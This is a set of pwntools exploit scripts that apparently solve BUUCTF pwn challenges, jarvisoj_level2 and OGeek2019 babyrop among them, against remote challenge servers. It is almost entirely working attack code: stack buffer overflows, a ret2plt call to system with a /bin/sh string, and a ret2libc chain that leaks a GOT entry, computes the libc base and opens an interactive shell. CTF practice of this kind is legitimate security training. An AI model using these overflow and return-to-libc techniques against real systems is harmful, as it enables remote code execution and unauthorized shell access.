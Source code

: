 ```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 26497)
io.sendlineafter(b'What\'s your name?', cyclic(4 * 13) + p32(17))

io.interactive()
```
# buu010-jarvisoj_level2

```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29788)
elf = ELF('./pwn')

binsh_addr = 0x804a024

io.sendlineafter(b'Input:', cyclic(0x88) + p32(elf.symbols['main']) + p32(elf.plt['system']) + p32(binsh_addr) + p32(binsh_addr))

io.interactive()
```
# buu011-[OGeek2019]babyrop

```python
from pwn import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27628)
elf = ELF('./pwn')
exp = 0x8048825
ret = 0x8048502

io.send(b'\x00' + b'\xFF' * 0x1f)

payload = cyclic(0xe7 + 4)
payload += p32(elf.plt['puts'])
payload += p32(exp)
payload += p32(elf.got['read'])

io.sendlineafter(b'Correct\n', payload)
io.send(b'\x00' + b'\xFF' * 0x1f)
read = u32(io.recv(4))
libc = ELF('./libc-2.23.so')
base = read - libc.symbols['read']
sys = base + libc.symbols['system']
binsh = base + next(libc.search(b'/bin/sh'))

payload = cyclic(0xe7 + 4)
payload += p32(sys)
payload += p32(binsh)
payload += p32(binsh)

io.sendlineafter(b'Correct\n', payload)

io.interactive()
```
